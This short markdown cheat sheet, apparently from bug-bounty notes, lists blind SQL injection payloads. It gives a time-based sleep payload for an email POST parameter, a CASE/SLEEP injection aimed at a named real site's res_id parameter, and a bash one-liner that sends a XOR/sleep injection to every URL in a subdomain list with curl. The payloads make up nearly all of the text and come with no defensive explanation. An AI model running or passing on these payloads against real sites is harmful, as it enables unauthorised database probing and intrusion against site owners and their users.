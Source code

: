 ### Blind SQL injections:

1) SQL injection email parameter via POST method:

   Payload:

    ```
   '%2b(select*from(select(sleep(2)))a)%2b'
    ```

2) Zomato Blind sql:
   ```
   res_id=51-CASE/**/WHEN(LENGTH(version())=10)THEN(SLEEP(6*1))END&city_id=0

   ```

3) Blind SQL onliner for domains:
```
while read -r url; do echo "Testing $url"; curl -m 20 -s -o /dev/null -w "%{time_total}\n" "$url/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z"; done < sub.txt

```
